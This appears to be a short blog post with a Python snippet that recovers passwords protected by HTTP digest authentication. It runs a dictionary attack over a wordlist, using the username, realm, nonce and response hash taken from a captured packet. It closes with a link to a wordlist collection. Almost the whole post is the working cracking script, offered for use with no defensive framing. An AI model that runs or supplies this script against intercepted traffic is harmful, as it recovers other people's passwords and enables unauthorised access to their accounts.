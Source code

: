 ```yaml
---
title: "HTTP Authentication Dictionary Attack"
published: 2018-05-21T07:59:00+12:00

tags: [ "security", "python", "snippet", "networking",]
---
```


Here's a little snippet of Python code to crack HTTP digest authentication, getting a user's password given information from a captured packet and a wordlist.

```py
import hashlib

extracted = 'known_auth_hash'
nonce = 'known_nonce_hash'

user = 'known_username'
realm = 'known_realm'
uri = '/image.png'
method = 'GET'

with open('words.txt', 'r') as file:
  for line in file:
    line = line.strip()

    ha1 = hashlib.md5((user+':'+realm+':'+line).encode('utf-8')).hexdigest()
    ha2 = hashlib.md5((method+':'+uri).encode('utf-8')).hexdigest()
    response = hashlib.md5((ha1+':'+nonce+':'+ha2).encode('utf-8')).hexdigest()

    if response == extracted:
      print('success! word was:', line)
      break
```

You can find some good wordlists [right here](https://github.com/danielmiessler/SecLists).

